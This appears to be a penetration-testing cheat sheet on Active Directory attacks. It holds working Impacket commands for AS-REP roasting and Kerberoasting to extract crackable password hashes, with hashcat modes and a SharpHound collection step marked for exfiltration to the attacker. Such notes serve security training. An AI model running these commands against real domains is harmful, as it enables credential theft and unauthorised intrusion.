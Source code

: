 Notes:

*   Use validation to reduce false-positives before brute-force or large Kerberos requests.
*   Rate limit attempts to avoid lockouts when practicing password spraying.

* * *

## Kerberos attacks (AS-REP & Kerberoast)

High ROI attacks that produce offline-crackable materials.

### [AS-REP Roasting](https://www.thehacker.recipes/ad/movement/kerberos/asreproast)

Find accounts with "Do not require Kerberos preauthentication":

```sh
GetNPUsers.py DOMAIN/ -no-pass -dc-ip DC_IP -usersfile users.txt -outputfile asrep_hashes.txt
```

Crack with `hashcat` / `john` (mode depends on format — commonly `18200` for hashcat, verify format).

### [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)

Requires a valid domain user credential (any low-priv user).

```sh
GetUserSPNs.py DOMAIN/attackeruser:Password@DC_IP -outputfile kerberoast.hashes

GetUserSPNs.py -dc-ip 172.16.5.5 EXAMPLE.LOCAL/flank:pass -request-user sqldev -outputfile sqldev_tgs
```

Crack with `hashcat` (mode often 13100 for RC4/older; check current modes).

Notes:

*   Impacket tools change; update impacket if tools fail.
*   AS-REP has high ROI when target accounts have preauth disabled.

* * *

## BloodHound collection & analysis

Collector options:

*   SharpHound (C#) — most complete.
*   bloodhound-python — Python collector.

SharpHound usage (from a Windows host where you can execute):

```
.\SharpHound.exe -c All
# produced zip(s) → exfil to attacker and import into BloodHound
```

